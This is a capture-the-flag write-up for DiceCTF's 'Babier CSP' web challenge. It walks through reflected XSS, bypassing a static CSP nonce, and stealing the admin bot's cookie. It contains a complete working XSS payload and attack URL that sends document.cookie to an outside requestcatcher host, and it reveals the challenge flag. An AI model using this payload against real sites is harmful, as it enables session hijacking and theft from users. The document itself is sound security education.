 # DiceCTF-Writeup
# Babier CSP Challenge by notdeghost
[TL;DR at the bottom](#tldr)
## Getting XSS
When you visit the [challenge website](https://babier-csp.dicec.tf/) you are welcomed by a link with the name 'View Fruit'.
When clicked, it adds the get paramater ?name to the url with the value of a random Fruit.

The `name` value is just echoed back into the sites html. The challenge description also tells you, that your objective is to steal the admins
cookies which greatly hints towards a cross site scripting attack (XSS) -- So let's do that!

When you try to access `<site>?name=<script>alert(1)</script>` , nothing happens though. If you have a look at the main sites html using burp to intercept to
the request, you see that, the "View Fruit" link works with javascript and it has a nonce value set!

![Burp request intercept](https://github.com/the-lightstack/DiceCTF-Writeup/blob/main/burp_babier_csp.png)

Now let's add this nonce to our payload:
`https://babier-csp.dicec.tf/?name=<script nonce="LRGWAXOY98Es0zz0QOVmag==">alert(1)</script>`
(From now on I will just show you the payload, not the full url)

An alert box pops up and the XSS worked!

## How to steal the Cookie

This is the part I struggled with.
The main idea is to add the cookies (found in `document.cookie`) to a get request to a service you can inspect the requests arriving.
I decided to go with [requestcatcher](https://requestcatcher.com/).
If we try to fetch a get request out of the browsers debug console from the target website to our bin, nothing arrives and fetch returns "rejected".

Now was the time I had a look into the [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) (content security policy), which from my understanding tells the browser who it may make get requests to out of the websites context.

For the challenge website this header is set to following:
`Content-Security-Policy: default-src none; script-src 'nonce-LRGWAXOY98Es0zz0QOVmag==';`

This means first disallow every outgoing request and only allow requests for a script source, if the script has the nonce value = <nonce-value> set.
([Tool for checking CSP'S](https://csp-evaluator.withgoogle.com/))
Using base tags would have been another option to exploit this.

So we may fetch a script source to where ever we want to!

```html
</h1>                                             <= close open h1 tag from site html
<script nonce="LRGWAXOY98Es0zz0QOVmag==">         <= open script tag with nonce value so it executes
var head=document.getElementsByTagName('head')[0];<= get a reference to the html head element on the page
var script= document.createElement('script');     <= create a new script tag
script.src= ('https://givemeflag.requestcatcher.com/?flag='.concat(JSON.stringify(document.cookie))); <= setting the new script-tags src to our requestcatcher
                                                                                                          with the cookies appended as a get parameter
script.nonce="LRGWAXOY98Es0zz0QOVmag==";          <= setting the new script tag`s nonce so it will execute too
head.appendChild(script);                         <= finally appending it to the documents head, which will automatically execute it
</script>
</h1>
```

When the our new script tag is then executed, it want's to and is allowed to request it's "source" which in fact is our requestbin and we after we send the following link to the bot, a GET request will pop up in our bin.
Link: `https://babier-csp.dicec.tf?name=</h1><script nonce="LRGWAXOY98Es0zz0QOVmag==" >var head=document.getElementsByTagName('head')[0]; var script= document.createElement('script');script.src= ('https://givemeflag.requestcatcher.com/?flag='.concat(JSON.stringify(document.cookie)));script.nonce="LRGWAXOY98Es0zz0QOVmag==";head.appendChild(script);</script></h1>`

The incoming request:
![Request](https://github.com/the-lightstack/DiceCTF-Writeup/blob/main/request_catcher_request.png)

So the GET request we caught 
`GET /?flag=%22secret=4b36b1b8e47f761263796b1defd80745%22 HTTP/1.1`
reveals "4b36b1b8e47f761263796b1defd80745" to be our token. 

If we have a quick look into the index.js source code we could download from the diceCTF website, this part 

```js
app.use('/' + SECRET, express.static(__dirname + "/secret"));
```
reveals how to move on.
Let's plug our token into the url like so `/4b36b1b8e47f761263796b1defd80745`

The new pages source code:
```

I'm glad you made it here, there's a flag!

<b>dice{web_1s_a_stat3_0f_grac3_857720}</b>

If you want more CSP, you should try Adult CSP.

```
Hey!
`dice{web_1s_a_stat3_0f_grac3_857720}` is our flag!
<br>

## TL;DR
Add nonce value to the script tag and fetch script src with cookie appended to circumvent the CSP.
<br>

Thanks for reading and hope you learned something new,<br>
LightStack<br>




